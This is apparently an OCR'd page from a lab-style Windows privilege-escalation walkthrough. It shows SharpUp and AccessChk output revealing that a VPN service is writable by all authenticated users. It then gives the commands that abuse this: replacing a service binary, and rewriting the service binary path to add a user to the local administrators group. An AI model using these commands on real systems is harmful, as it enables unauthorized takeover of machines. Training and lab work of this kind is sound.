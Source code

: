 ```
        C:\> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
        C:\> sc start SecurityService

        -Weak Service Permissions

        Let's check the SharpUp output again for any modifiable services. We see the WindscribeService is potentially misconfigured.

        === Modifiable Services ===
 
        Name             : WindscribeService
        DisplayName      : WindscribeService
        Description      : Manages the firewall and controls the VPN tunnel
        State            : Running
        StartMode        : Auto
        PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"


        -Checking Permissions with AccessChk

        Next, we'll use AccessChk from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are -q (omit banner), -u (suppress errors), -v (verbose), -c (specify name of a Windows service), and -w (show only objects that have write access). Here we can see that all Authenticated Users have SERVICE_ALL_ACCESS rights over the service, which means full read/write control over it.


        C:\> accesschk.exe /accepteula -quvcw WindscribeService
 
        Accesschk v6.13 - Reports effective permissions for securable objects
        Copyright ⌐ 2006-2020 Mark Russinovich
        Sysinternals - www.sysinternals.com
        
        WindscribeService
        Medium Mandatory Level (Default) [No-Write-Up]
        RW NT AUTHORITY\SYSTEM
                SERVICE_ALL_ACCESS
        RW BUILTIN\Administrators
                SERVICE_ALL_ACCESS
        RW NT AUTHORITY\Authenticated Users
                SERVICE_ALL_ACCESS


        
        -Check Local Admin Group

        C:\> net localgroup administrators


        -Changing the Service Binary Path

        C:\> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

        -Stopping Service

        C:\> sc stop WindscribeService

        -Starting the Service

        C:\> sc start WindscribeService

```